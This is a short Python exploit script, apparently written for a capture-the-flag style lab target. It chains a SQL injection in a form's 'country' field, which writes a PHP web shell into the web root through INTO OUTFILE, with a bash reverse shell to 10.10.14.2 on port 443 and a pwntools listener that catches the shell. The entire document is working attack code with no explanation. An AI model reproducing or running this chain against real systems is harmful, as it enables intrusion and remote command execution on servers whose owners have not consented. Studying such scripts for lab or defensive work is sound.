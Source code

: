 ```py
#! /usr/bin/python3
# cf : https://youtu.be/78i-qbhEUVU?t=1479

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)
 
if len(sys.argv) !=3:
    log.failure("Uso : %s <ip-address> filename" % sys.argv[0])
    sys.exit(1)

# Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = 443

def createFile():

    data_post = {
        'username': 'kiki',
        'country' : """Afganistan' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/%s"-- -""" % (filename)
    }

    r = requests.post(main_url, data=data_post)

def getAccess():

    data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':

    createFile()
    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```
